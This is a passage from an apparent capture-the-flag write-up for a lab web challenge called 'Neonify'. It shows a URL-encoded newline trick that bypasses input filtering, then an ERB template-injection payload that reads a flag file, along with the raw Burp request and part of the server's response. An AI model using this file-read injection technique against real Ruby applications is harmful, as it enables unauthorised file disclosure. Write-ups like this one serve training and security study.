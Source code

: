 ![](/assets/images/writeups/neonify/4.png)

We still are on the same boat.

Let us take this thing on burp so that we can encode our payload as a whole.

The final payload is updated as:

```
Nehal%0a<%25%3d+File.open('/app/flag.txt').read+%25>
```

```
POST / HTTP/1.1
Host: 172.17.0.2:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 57
Origin: http://172.17.0.2:1337
Connection: close
Referer: http://172.17.0.2:1337/
Upgrade-Insecure-Requests: 1

neon=Nehal%0a<%25%3d+File.open('/app/flag.txt').read+%25>
```

```html

HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 567
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Server: WEBrick/1.6.1 (Ruby/2.7.5/2021-11-24)
Date: Mon, 26 Dec 2022 07:24:21 GMT
Connection: close

<!DOCTYPE html>
<html>
<head>
    <title>Neonify</title>
    <link rel="stylesheet" href="stylesheets/style.css">
    <link rel="icon" type="image/gif" href="/images/gem.gif">
</head>
<body>
    <div class="wrapper">
        <h1 class="title">Amazing Neonify Generator</h1>
```